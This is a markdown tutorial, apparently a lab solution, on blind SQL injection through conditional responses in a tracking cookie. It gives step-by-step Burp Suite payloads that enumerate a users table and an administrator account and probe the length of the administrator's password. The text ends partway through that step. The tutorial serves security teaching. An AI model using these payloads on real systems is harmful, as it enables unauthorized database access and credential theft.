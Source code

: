 
# Blind SQL injection 

Many instances of SQL injection are blind vulnerabilities. This means that the application does not return the results of the SQL query or the details of any database errors within its responses.

## Exploiting blind SQL injection by triggering conditional responses

An application that uses tracking cookies to gather analytics about usage. When a request containing a *TrackingId* cookie is processed, the application determines whether this is a know user using an SQL query like this:

``` SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4' ```

The application does behave differently depending on whether the query returns any data. If it returns data (because a recognized *TrackingId* was submitted), then a "Welcome back" message is displayed within the page.

### Blind SQL injection with conditional responses

The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

**Solution**
1. Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the *TrackingId* cookie. For simplicity, let's say the original value of the cookie is *TrackingId=xyz*.
2. Modify the *TrackingId* cookie, changing it to:

    ``` TrackingId=xyz' AND '1'='1 ```

    Verify that the "Welcome back" message appears in the response.

3. Now change it to:

    ``` TrackingId=xyz' AND '1'='2 ```

    Verify that the "Welcome back" message does not appear in the response. This demonstrates how you can test a single boolean condition and infer the result.

4. Now change it to:

    ``` TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a ```

    Verify that the condition is true, confirming that there is a table called *users*.
5. Now change it to:

    ``` TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a ```

    Verify that the condition is true, confirming that there is a user called *administrator*.
6. The next step is to determine how many characters are in the password of the *administrator* user. To do this, change the value to:

    ``` TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a ```

    This condition should be true, confirming that the password is greater than 1 character in length.
7. Send a series of follow-up values to test different password lengths. Send:

    ``` TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a ```
```